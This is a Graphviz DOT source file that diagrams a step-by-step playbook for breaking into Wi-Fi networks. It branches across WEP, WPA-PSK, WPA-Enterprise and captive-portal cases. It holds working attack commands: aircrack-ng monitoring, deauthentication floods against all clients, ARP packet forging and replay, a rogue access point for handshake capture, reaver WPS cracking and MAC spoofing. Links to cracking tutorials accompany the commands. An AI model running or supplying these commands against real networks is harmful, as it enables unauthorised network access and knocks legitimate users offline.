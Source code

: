 /*
Graphviz - DOT language writing!
$dot -Tsvg this.dot -o this.svg
*/
digraph Diagram {
    //PROFILE [label = "written by SYA-KE", shape=none];
    nodesep=0.1;
    node [fontsize=10];
    edge [fontsize=9];
    /*
    {
        node [style="invis"];
        MAIN1 -> OPN2 -> WEP3 -> WPA4 [allowhead="none",style="invis"];
    }
    */
    subgraph clusterMain {
        label = "Connecting Wireless-LAN Access Point";
        subgraph clusterFail {
            label = "";
            color = red;
            node [shape=doublecircle,color=red];
            Impossible [label="BluteForceAttack? :D"];
        }
        subgraph clusterOPN{
            label = "OPN";
            color = darkorchid;
            subgraph OPN_N_If {
                node [shape=diamond];
                NothingToDo [URL="http://compnetworking.about.com/od/wirelessfaqs/f/legal_free_wifi.htm"];
            }
            subgraph OPN_Flow {
            }
        }
        subgraph clusterWEP {
            label = "WEP";
            color = darkorchid1;
            subgraph WEP_N_Do {
                node [shape=box];
                ARPReplay [label="Perform ARP replay Attack",URL="http://www.aircrack-ng.org/doku.php?id=arp-request_reinjection"];
                CaptureSomeDataPacket [label="Capture #Data Packet",URL="http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients"];
                ForgeARP [label="Forge ARP Packet",URL="http://www.aircrack-ng.org/doku.php?id=packetforge-ng"];
                BluteforceCRC [label="BluteForce Against a WEP Data Packet"];
                CrackCredential_WEP [label="CrackCredential"];
            }
            subgraph WEP_N_If {
                node [shape=diamond];
                HasClient_WEP [label="HasClient"];
                CouldGenerateXOR [URL="http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients"];
            }
            subgraph WEP_Flow {
                HasClient_WEP -> ARPReplay [label="Yes."];
                HasClient_WEP -> CaptureSomeDataPacket [label="No."];
                CaptureSomeDataPacket -> CouldGenerateXOR;
                CouldGenerateXOR -> ForgeARP [label="Yes."];
                CouldGenerateXOR -> BluteforceCRC [label="No."];
                BluteforceCRC -> CrackCredential_WEP;
                ForgeARP -> ARPReplay;
                ARPReplay -> CrackCredential_WEP;
            }
        }
        subgraph clusterWPA {
            label = "WPA";
            color = darkorchid2;
            subgraph WPA_N_If {
                node [shape=diamond];
                IsTKIP;
                IsPSK;
                HasWPS_PSK [label="HasWPS",URL="http://code.google.com/p/reaver-wps/source/browse/trunk/docs/README.WASH?r=87"];
                HasClient_EAP [label="HasClient"];
            }
            subgraph WPA_Flow {
                IsTKIP -> HasWPS_PSK [label="Yes."];
                IsTKIP -> IsPSK [label="No."];
                //IsTKIP -> KobeCrack [label="gain xgr -> sniff and forge packets(do XOR each transaction)"];
                IsPSK -> HasWPS_PSK [label="Yes."];
                IsPSK -> HasClient_EAP [label="NO."];
            }
            subgraph clusterPSK {
                label = "PSK";
                subgraph PSK_N_If {
                    node [shape=diamond];
                    HasClient_PSK [label="HasClient"];
                    IsWeakWPS [URL="https://scotthelme.co.uk/wifi-insecurity-wps/"];
                }
                subgraph PSK_N_Do {
                    node [shape=box];
                    SetupRougeAccessPointOrDeauthClient [shape=record,label="SetupRougeAP|DeauthClient",URL="http://theunl33t.blogspot.jp/2011/09/no-access-point-no-problem-how-to-get.html"];
                    StealHandShake [URL="http://www.smallnetbuilder.com/wireless/wireless-howto/31914-how-to-crack-wpa-wpa2-2012"];
                    CrackCredential_PSK [label="CrackCredential"];
                    CrackWPS [URL="http://lifehacker.com/5873407/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver"];
                }
                subgraph PSK_Flow {
                    HasWPS_PSK -> IsWeakWPS [label="Yes."];
                    IsWeakWPS -> CrackWPS [label="Yes."];
                    IsWeakWPS -> HasClient_PSK [label="No."];
                    HasWPS_PSK -> HasClient_PSK [label="No."];
                    HasClient_PSK -> SetupRougeAccessPointOrDeauthClient [label="Yes."];
                    HasClient_PSK -> Impossible [label="No."];
                    SetupRougeAccessPointOrDeauthClient -> StealHandShake;
                    StealHandShake -> CrackCredential_PSK;
                    CrackWPS -> CrackCredential_PSK;
                }
            }
            subgraph clusterEAP {
                label = "EAP";
                subgraph EAP_N_If {
                    node [shape=diamond];
                }
                subgraph EAP_N_Do {
                    node [shape=box];
                    SetupRougeAP [URL="http://blog.opensecurityresearch.com/2012/04/capturing-and-cracking-peap.html"];
                    CaptureChallangeResponse [URL="http://phreaklets.blogspot.jp/2013/06/cracking-wireless-networks-protected.html"];
                    CrackCredential_EAP [label="CrackCredential"];
                }
                subgraph EAP_Flow {
                    HasClient_EAP -> SetupRougeAP [label="Yes."];
                    HasClient_EAP -> Impossible [label="No."];
                    SetupRougeAP -> CaptureChallangeResponse;
                    CaptureChallangeResponse -> CrackCredential_EAP;
                }
            }
        }

        NothingToDo -> IsTKIP -> HasClient_WEP [style=invis];

        subgraph N_Start {
            node [shape=invtriangle,color=blue];
            Start;
        }
        subgraph N_End {
            node [shape=triangle,color=blue];
            End;
            subgraph Impossible_to_End{
                Impossible -> End;
            }
        }
        subgraph Nodes {
            subgraph N_Do {
                node [shape=box];
                ImproveYourWifiAntenna [URL="http://www.instructables.com/id/DIY-WIFI-Antenna-Reception-Booster/"];
                DeauthAllClient [URL="http://www.aircrack-ng.org/doku.php?id=deauthentication"];
                SpoofHardwareAddress [URL="http://www.securethelock.com/2013/12/03/how-to-bypass-mac-address-filtering-using-backtrackkali-linux/"];
                SpoofHardwareAddress2 [label="SpoofHardwareAddressToClient'sOne",URL="http://www.securethelock.com/2013/12/03/how-to-bypass-mac-address-filtering-using-backtrackkali-linux/"];
                SpoofProtocol [label="TCP over ICMP\nTCP over DNS\n"];
            }
            subgraph N_If {
                node [shape=diamond];
                HasAccessPointsAroundYou [URL="http://www.aircrack-ng.org/doku.php?id=airodump-ng"];
                IsStealthESSID [URL="http://securitysynapse.blogspot.jp/2014/01/wireless-pentesting-on-cheap-kali-hiddenSSID.html"];
                IsThereConnectedClient [URL="http://blackhat6969.blogspot.jp/2012/09/down-and-dirty-wifi-cracking-with.html"];
                HasHardwareAddressFiltering [URL="http://synjunkie.blogspot.jp/2007/12/bypass-hidden-ssid-mac-address-filter.html"];
                HasEncryption [URL="http://www.dummies.com/how-to/content/wireless-security-protocols-wep-wpa-and-wpa2.html"];
                IsWEP [URL="http://www.howtogeek.com/167783/htg-explains-the-difference-between-wep-wpa-and-wpa2-wireless-encryption-and-why-it-matters/"];
                HasWebAuthentication [URL="http://www.slideshare.net/support_cyberoam/hotspot-authentication"];
                HasAccount;
                HasPermitedProtocols;
                HasClient_Web [label="HasAlreadyAuthenticatedClient"];
            }
        }
        subgraph Flow {
            Start -> HasAccessPointsAroundYou;
            HasAccessPointsAroundYou -> IsStealthESSID [label="Yes"];
            HasAccessPointsAroundYou -> ImproveYourWifiAntenna [label="No."];
            ImproveYourWifiAntenna -> IsStealthESSID;
            IsStealthESSID -> IsThereConnectedClient [label="Yes."];
            IsThereConnectedClient -> DeauthAllClient [label="Yes."];
            IsThereConnectedClient -> Impossible [label="No."];
            IsStealthESSID -> HasHardwareAddressFiltering [label="No."];
            DeauthAllClient -> HasHardwareAddressFiltering;
            HasHardwareAddressFiltering -> SpoofHardwareAddress [label="Yes."];
            HasHardwareAddressFiltering -> HasEncryption [label="No."];
            SpoofHardwareAddress -> HasEncryption;
            HasEncryption -> NothingToDo [label="No."];
            //goto clusterOPN

            HasEncryption -> IsWEP [label="Yes."];
            IsWEP -> HasClient_WEP [label="Yes."];
            //goto clusterWEP

            IsWEP -> IsTKIP [label="No."];
            //goto clusterWPA

            //back from OPN
            NothingToDo -> HasWebAuthentication;
            //back from WPA
            CrackCredential_PSK -> HasWebAuthentication;
            CrackCredential_EAP -> HasWebAuthentication;
            //back from WEP
            CrackCredential_WEP -> HasWebAuthentication;

            HasWebAuthentication -> HasAccount [label="Yes."];
            HasWebAuthentication -> End [label="No."];
            HasAccount -> End [label="Yes."];
            HasAccount -> HasClient_Web [label="No."];
            HasClient_Web -> SpoofHardwareAddress2 [label="Yes."];
            HasClient_Web -> HasPermitedProtocols [label="No."];
            HasPermitedProtocols -> SpoofProtocol [label="Yes."];
            HasPermitedProtocols -> Impossible [label="No."];
            SpoofHardwareAddress2 -> End;
        }
    }
    //subgraph clusterCommands {
    subgraph Commands {
        label = "CommandsAndNotes";
        subgraph Nt_Command {
            node [shape=box,color=gray];
            HasAccessPointsAroundYouCommand [label="ifconfig wlan0 down;\niwconfig wlan0 mode mon || airmon-ng start wlan0;\nairodump-ng wlan0;\n"];
            ImproveYourWifiAntennaCommand [label="iw reg set BO;\niwconfig wlan0 tx 30;\n#Add DIY Parabora."];
            IsStealthESSIDCommand [label="airodump-ng -c [channel] --bssid [AP MAC] wlan0"];
            DeauthAllClientCommand [label="aireplay-ng -0 0 -a [AP MAC] wlan0;\naireplay-ng -0 0 -a [AP MAC] -c [STA MAC] wlan0;"];
            SpoofHardwareAddressCommand [label="ifconfig wlan0 down && ifconfig hw ether [MAC] && ifconfig wlan0 up;\nmacchanger -m [MAC] wlan0;"];
            CaptureSomeDataPacketCommand [label="airodump-ng -c [channel] --bssid [AP MAC] --output-format pcap -w captured wlan0"];
            CouldGenerateXORCommand [label="aireplay-ng -5 -b [AP MAC] wlan0\naireplay-ng -4 -b [AP MAC] wlan0"];
            ForgeARPCommand [label="packetforge-ng -0 -a [AP MAC] -h [Original client MAC of XOR] -k 255.255.255.255 -l 255.255.255.255 -y some.xor -w arp-req"];
            ARPReplayCommand [label="aireplay-ng -3 -b [AP MAC] wlan0\naireplay-ng -2 -r arp-req wlan0"];
            SetupRougeAccessPointOrDeauthClientCommand [label="airbase-ng -P -C 500 -Z 2 -c 1 -i mon0 -F handshakes.cap wlan0"];
            CrackWPSCommand [label="reaver -i wlan0 -b [AP MAC]"];
        }
        subgraph Nt_Flow {
            edge [color=gray];
            HasAccessPointsAroundYouCommand -> HasAccessPointsAroundYou;
            ImproveYourWifiAntennaCommand -> ImproveYourWifiAntenna;
            IsStealthESSIDCommand -> IsStealthESSID;
            DeauthAllClientCommand -> DeauthAllClient;
            DeauthAllClientCommand -> SetupRougeAccessPointOrDeauthClient;
            SpoofHardwareAddressCommand -> SpoofHardwareAddress;
            SpoofHardwareAddressCommand -> SpoofHardwareAddress2;
            CaptureSomeDataPacketCommand -> CaptureSomeDataPacket;
            CaptureSomeDataPacketCommand -> StealHandShake;
            CouldGenerateXORCommand -> CouldGenerateXOR;
            ForgeARPCommand -> ForgeARP;
            ARPReplayCommand -> ARPReplay;
            SetupRougeAccessPointOrDeauthClientCommand -> SetupRougeAccessPointOrDeauthClient;
            CrackWPSCommand -> CrackWPS;
        }
    }
/*
    {
        edge[style=invis];
        {End} -> {Impossible};
    }
*/
    /*
    {rank=same; MAIN1; Start ;};
    {rank=same; OPN2; NothingToDo ;};
    {rank=same; WEP3; HasClient_WEP ;};
    {rank=same; WPA4; IsPSK ;};
    */
}
